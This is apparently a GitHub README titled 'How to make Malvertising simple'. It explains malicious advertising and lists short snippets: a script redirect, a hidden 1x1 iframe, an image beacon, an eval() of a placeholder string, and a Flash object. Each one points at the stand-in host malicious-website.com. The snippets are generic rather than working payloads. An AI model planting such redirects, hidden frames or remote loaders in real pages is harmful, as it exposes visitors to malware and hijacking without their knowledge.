 <h2 align="center">How to make Malvertising simple</h2>

<p align="center"><a href="https://github.com/Sasser1337/How-to-make-Malvertising/stargazers"><img src="https://img.shields.io/github/stars/Sasser1337/How-to-make-Malvertising" alt="Stars Badge"/></a> <a align="center">
<a href="https://github.com/Sasser1337/awesome-github-profile-readme/network/members"><img src="https://img.shields.io/github/forks/Sasser1337/How-to-make-Malvertising" alt="Forks Badge"/></a> <a align="center">
<a href="https://github.com/Sasser1337/How-to-make-Malvertising/blob/master/LICENSE"><img src="https://img.shields.io/github/license/Sasser1337/How-to-make-Malvertising?color=2b9348" alt="License Badge"/></a> <a align="center">

<i> Malvertising is a type of malicious advertising that uses online advertising networks to spread malicious software. It is a form of cyber attack that uses online advertising networks to spread malicious software, such as viruses, spyware, and ransomware. </i>

<i> Malvertising is a serious threat to online users as it can be used to spread malicious software without the user’s knowledge. Malvertising can be used to steal personal information, install malicious software, or redirect users to malicious websites. </i>

<i> To create malvertising, attackers use malicious code embedded in online advertisements. This code can be used to redirect users to malicious websites, install malicious software, or steal personal information. </i>

<i> The following code examples demonstrate how attackers can use malicious code to create malvertising: </i>

<h2> JavaScript Redirect: </h2>

```javascript
<script>
window.location = "http://malicious-website.com";
</script>
```

<h2> Malicious iFrame: </h2>

```javascript
<iframe src="http://malicious-website.com" width="1" height="1" frameborder="0" />
```

<h2> Malicious Image Tag: </h2>

```javascript
<img src="http://malicious-website.com/malicious-image.jpg" width="1" height="1" />
```

<h2> Malicious JavaScript: </h2>

```javascript
<script type="text/javascript">
var malicious_code = "malicious code here";
eval(malicious_code);
</script>
```

<h2> Malicious Flash File: </h2>

```javascript
<object type="application/x-shockwave-flash" data="http://malicious-website.com/malicious-file.swf">
</object>
```

- These code examples demonstrate how attackers can use malicious code to create malvertising. It is important to be aware of the threat posed by malvertising and to take steps to protect yourself from it.
